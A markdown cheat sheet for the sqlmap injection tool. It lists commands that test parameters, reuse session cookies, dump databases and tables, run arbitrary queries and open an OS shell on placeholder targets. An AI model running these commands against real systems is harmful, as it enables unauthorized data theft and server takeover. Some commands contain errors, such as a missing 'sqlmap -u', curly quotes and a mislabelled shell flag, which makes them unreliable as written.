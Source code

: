 ### Installation 

    sudo apt install sqlmap
    sqlmap -u “https://target.com/page/”

> Use this method to get basic info if that particular page is vulnerable or not, Note its not always reliable
### Specifying the GET Request Parameter

    sqlmap -u “https://target.com/page?para1=val1&para2=val2”

> Use this when you are sure that when the website accepts that particular parameter

### Asking SQL map to Check if particular parameter is exploitable

    “https://target_site.com/page?p1=value1&p2=value2” -p p1

> Here P1 is the first parameter and using that -p followed by p1 asks SQLmap to check that particular parameter alone.
### Specifying the POST Request Parameter

    sqlmap -u “https://target.com/page/” --data="p1=val1&p2=val2"

> This is very important since lot of web apps use POST request instead of GET request

### When a web app uses Authenticated Session With Cookie or Header

    sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"

> Get the Cookie Session for the browser's developer tools in the application section


    sqlmap -u “https://target_site.com/page/” --data="p1=val1&p2=val2" --headers="<------>"

##  Once you success fully exploit there is session thats created by SQLmap which you can use for direct connection

    sqlmap -u “https://target.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs

> You can use this file from the home path of the SQLMap tool’s output directory.


## Exploitation Commands

If the SQL injection vulnerability is observed **positive** then you can use the following commands to Exploit the SQL injection vulnerability.

### List the databases

    sqlmap -u “https://target_site.com/page?p1=value1” --dbs

### List Tables of a particular Database

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables

### List Columns of Table of a Database 

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns

### Dump Specific Data of Columns of Table  of Database 

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump

### Fully Dump Table TARGET_TABLE of Database TARGET_DB

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump

### Dump full Database

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump

### Run Custom Query on your own

    sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"

### Get  access to OS Shell

    sqlmap -u “https://target_site.com/page?p1=value1” --os-shell

### Get access to SQL shell

    sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell